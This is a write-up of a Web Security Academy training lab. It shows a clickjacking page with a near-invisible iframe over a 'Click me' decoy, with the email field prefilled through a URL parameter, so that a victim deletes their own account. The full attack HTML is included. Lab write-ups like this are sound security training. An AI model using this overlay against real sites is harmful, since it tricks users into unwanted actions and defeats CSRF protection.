



# Lab description
Basic clickjacking lab to demonstrate that clickjacking attacks bypass CSRF token protection. The difference with the base one is that the URL contains an email parameter which we need to fillup in the HTML hidden iframe with the user we want to delete.

Official lab description:
> This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.
> To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.
> You can log in to your own account using the following credentials: `wiener:peter`

# Writeup
Okay, we have to just craft a HTML response of a page that has a button that says "click" and that button has an invisible iframe on top. Let's use the example CSS given in the lab solution, as crafting this would be a lot of time and effort.
This is the example HTML:

```css
<style>
  iframe {
    position: relative;
    width: $width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }

  div {
    position: absolute;
    top: $top_value;
    left: $side_value;
    z-index: 1;
  }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

As we can see, the difference is that there is a parameter called `email` that needs to be filled so it gets autocompleted:

We can see that now, with the parameter, the user just have to click. That is why we can still perform clickjacking.

Now, the attack is the same. We change the values of the HTML frames to match:


And turn on opacity, change the button to "Click me" and send. This is the final HTML that is received by the user and performs the attack:
```css
<style>
    iframe {
        position:relative;
        width:1000;
        height: 600;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470;
        left:60;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a7400660381857c83fd925c008b00ce.web-security-academy.net/my-account?email=silly@evil.me"></iframe>
```

We get our reward:


